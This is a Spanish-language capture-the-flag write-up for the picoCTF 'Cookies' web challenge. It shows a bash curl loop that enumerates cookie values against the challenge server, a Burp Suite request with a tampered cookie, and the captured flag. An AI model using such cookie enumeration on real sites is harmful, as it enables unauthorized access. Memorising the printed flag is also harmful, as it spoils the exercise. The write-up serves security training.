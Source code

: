 # Objetivo

¿A quién no le encantan las galletas? Intenta descubrir cuál es el mejor. http://mercury.picoctf.net:27177/
## Solución

Usaremos el editor de cookies para para corroborar que al ingresar el nombre de cookie en especifico pues cambia pero esta no es la correcta,  haremos uso del siguiente comando en la terminal, pues necesita de verificar las diferentes cookies que tiene:
```
┌──(jesus㉿KaliJesus)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep "I Love\|picoCTF"
```
Cuando llegue al indicado (donde encuentre `I Love` o `picoCTF`) se detiene para devolvernos la llave.

Otra forma es usando la herramienta `Burp Suite`, y vamos a encender el proxy pero no a interceptar, solamente vamos a ingresar la cookie que nos da de ejemplo y checamos el historial para verificar el que contenga en la sección `URL`, el texto : `/check`. Con click derecho, le vamos a la opción `Send to Repeater`
Buscamos la pestaña de `Repeater`, y nos encontramos con el siguiente código:

```
GET /check HTTP/1.1
Host: mercury.picoctf.net:27177
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://mercury.picoctf.net:27177/
Connection: close
Cookie: name=0
Upgrade-Insecure-Requests: 1
```
Cambiamos el nombre de la cookie, ingresamos el 18 y verificamos la respuesta:
```
           <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>

```
## Referencias

